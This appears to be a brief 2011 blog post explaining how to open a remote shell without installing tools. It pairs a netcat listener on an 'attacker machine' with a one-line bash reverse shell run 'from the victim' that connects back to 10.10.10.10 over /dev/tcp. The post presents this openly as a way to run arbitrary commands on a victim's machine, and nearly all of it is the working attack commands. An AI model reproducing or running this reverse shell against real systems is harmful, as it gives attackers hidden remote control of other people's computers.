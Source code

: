 +++
title = "remote shell without any tools"
date = "2011-11-25"
slug = "2011/11/25/remote-shell-without-any-tools"
Categories = []
+++

Here's a method for opening up a TCP connection from one host to another without needing to install any tools.

From the attacker machine, wait for a connection

Wait for connections

```bash 
nc -nlp 12345
```

From the victim

Call home

```bash
/bin/bash -i > /dev/tcp/10.10.10.10/12345 0<&1 2>&1
```

The victim code will open up a connection the the attacker, allowing the attacker to run whatever bash commands he wants. All this without installing anything on the victim. Spooky.

